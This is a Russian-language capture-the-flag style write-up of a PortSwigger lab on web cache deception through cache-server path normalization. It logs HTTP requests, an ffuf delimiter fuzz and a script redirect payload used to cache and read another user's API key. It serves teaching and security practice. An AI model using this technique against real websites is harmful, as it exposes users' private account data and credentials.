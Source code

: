 [Источник](https://t.me/coffee_cube)
## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-normalization-discrepancies/web-cache-deception/lab-wcd-exploiting-cache-server-normalization#)

```
https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
```

Для прохождения лабы нужно найти `API` ключи пользователя `carlos` с помощью [[Web cache deception]]. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

## Notes

Зайдем в личный кабинет. Попробуем посмотреть, какие ресурсы кэширует веб сервер. Нашел запрос к статическому ресурсы, который кэшируется:

```HTTP
GET /resources/js/tracking.js HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Sec-Fetch-Dest: script
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```

Ответ:

```HTTP
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 70

document.write('<img src="/resources/images/tracker.gif?page=post">');
```

Попробую найти примерное правило кэширования. Для этого заменю `tracking.js` на рандомный символы. Если ответ будет кэширован, значит правило кэширует ресурсы по статическому пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Я получил `404`, но ответ был кэшировался. А значит файлы в `/resourses` - кэшируюется. Посмотрю нормализацию пути. Для этого добавлю `/aaa/..%2f` в начало `/aaaa/..%2fresources/js/tracking.js`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ так же кэшировался. Попробую добавить `/aaaa/..%2f` после пути `/resources`: `/resources/aaaa/..%2fjs/tracking.js`.

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ все равно кэшировался. Значит путь преобразовался к нормальному виду до кэширования.

Теперь посмотрю то, как нормализуется путь к динамическим ресурсам. Для этого буду работать с запросом к `/my-account`:

```HTTP
GET /my-account HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить рандомные символы к пути: `/my-account/aaaa`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Значит такой способ не подходит. Попробую добавить `/aaa/..%2f` к началу пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Все еще не то( Хмм... А если наоборот подставить в конец? `/my-account%2f%2e%2e%2aaaa`

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Тоска( Видимо путь на сервере не нормализуется. Попробую добавить `/resourses` к пути динамического ресурса. Посмотрю, какие разделители обрабатывает сервер. Для этого использую `ffuf`. В целом, это можно сделать и в `Burp`, но я хочу так)

```bash
 ffuf -u https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-accountFUZZaaa \
 -w wordlists/webcache_delimeters.txt
```

Вывод:

```bash
%                       [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 91ms]
?                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 165ms]
#                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 171ms]
%23                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 176ms]
/                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 136ms]
%2F   3                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
%3F                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 81ms]
%00                     [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 72ms]
```

В качестве разделителя сервер принимает `%`, `?`, `#`, `/` и `%00`.  Я знаю, что путь к кэшируемы ресурсам нормализуется до кэширования, поэтому путь следующего формата должен кэшироваться `/my-account#%2f..%2fresourses`. Проверю это:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3866

...

```

Сработало. Теперь нужно скрафтить пейлоад. Для пейлоада буду использовать URL `https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned`. В качестве файла с нагрузкой использую `HTML`:

```XML
<script>document.location="https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned"</script>
```

(pic)[https://github.com/Cu63/writeups/tree/main/images/Pasted%20image%2020250222195110.png?raw=true]

Это не сработало. А почему? Попробую закодировать символы - это не помогло...

Прошел час. Была выпита одна чашка кофе. Я решил попробовать написать `html` полностью. И о чудо, оно сработало...

![[Pasted image 20250222212036.png]]

Долгожданный `API-key`:

![[Pasted image 20250222211820.png]]

Мда уж. Иногда стоит взять перерыв. А лаба решена:

![[Pasted image 20250222212135.png]]
